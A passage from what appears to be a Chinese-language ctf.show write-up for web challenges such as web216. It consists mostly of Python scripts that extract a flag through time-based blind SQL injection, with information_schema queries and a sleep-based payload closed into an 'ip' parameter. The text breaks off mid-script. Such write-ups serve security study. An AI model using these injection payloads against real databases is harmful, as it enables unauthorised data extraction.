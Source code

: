 ```python
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break
    print("[*]Result : "+result)
```



#### web216

![image-20250214122109700](../assets/image-20250214122109700.png)

构造闭合即可

```python
import requests

url = "http://d3d3aa4e-87f5-454c-b589-826971f59bbb.challenge.ctf.show/api/"
result = ""
i = 0

while True:
    i = i + 1
    # ASCII码范围，32到127是可打印字符的范围
    head = 32
    tail = 127

    while head < tail:
        # 二分查找的中间值
        mid = (head + tail) >> 1
		# 查表名
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查列名
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxcc'"
        # 爆字段
        payload = "select flagaac from ctfshow_flagxcc"
        data = {
            'ip': f"'') or if(ascii(substr(({payload}),{i},1))>{mid},sleep(1),1)#",
```